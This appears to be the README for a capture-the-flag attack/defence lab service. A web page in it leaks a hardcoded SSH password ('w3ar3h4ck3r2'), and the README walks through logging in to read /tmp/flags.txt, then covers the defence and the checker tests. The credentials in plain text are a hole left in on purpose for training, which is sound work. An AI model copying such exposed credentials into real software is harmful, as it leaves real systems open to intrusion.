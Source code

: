 # Service definition:
- We have two dockers: 
1. An Ubuntu (latest version) one which contains the flags. 
2. One who has install apache service. 
The attacker has access to a web page (web_docker) and has to look for information that can help him accessing the other docker.
The flags are stored in that last docker's file and attacker has to let them in his T-Submission machine. 

# Service implementation:
web docker is configured to take a copy index.html file from the host machine, letting it in '/usr/local/apache2/htdocs/index.html'. 
ssh docker is configured attending to the following tips:
  - It has openssh-server installed and started. 
  - It has a user called 'dev1' whose password is 'w3ar3h4ck3r2'. 

 'dev1' user's password will never be changed. Moreover, if a team changes it, it will be losing SLa points. 
 
-Flags: 
    Flags will be stored in 'pasapasa_ssh_1' docker's '/tmp/flags.txt' file. 

# About exploting:
- The attacker has to inspect the index.html document; the credentialas are stored there as plain text. With those credentials, the attacker can log into pasapasa_ssh docker and take the flags from /tmp/flags.txt.
- The defender should change 'dev1' user's password. 
  
  Attack performed by Team1 against Team 4. 
  Inspect web page in 10.0.0.104
      We find 'dev1/w3ar3h4ck3r2' credentials.
  ssh -p 8822 dev1@10.0.0.104
        Enter 'w3ar3h4ck3r2' as password
  cat /tmp/flags.txt
     Copy last flags
     Exit
  'ssh -i /home/urko/Deskargak/keyak/team2-sshkey root@10.0.1.1'
  nano /root/xxx.flag
    Paste copied flags. 

  Defense performed by Team4
     'ssh root@10.0.0.104'
     docker exec -it pasapasa_ssh_1 /bin/bash
     passwd dev1
     

# Checker checks:
- Ports to reach dockers are open (WEB:9797; SSH 8822)
- User 'dev1' exists in pasapasa_ssh docker. 
- /etc/sshd_config file from pasapasa_ssh docker has not been changed. 
- /usr/local/apache2/htdocs/index.html file's content from pasapasa_web docker has not been changed. 

Checks done: 
- TEAM 0. Stop the container: 'root@team0-services:~# docker stop pasapasa_web_1' It works OK, service's status becomes DOWN. 
- TEAM 1. Stop the container: 'root@team0-services:~# docker stop pasapasa_ssh_1' It works OK, service's status becomes DOWN.
- TEAM 2. 'userdel dev1'. It works OK, service's status becomes faulty. 
- TEAM 3. Change '/etc/sshd_config' file from 'pasapasa_ssh' docker. It works OK, service's status becomes faulty.
- TEAM 4. Change '/usr/local/apache2/htdocs/index.html' file from 'pasapasa_web' docker. It works OK, service's status becomes faulty.
- TEAM 5. 'ssh service stop'. It works OK, service's status becomes faulty. 
- TEAM 0. apt update apache2
# License notes
Parts from:
https://github.com/kristianvld/SQL-Injection-Playground



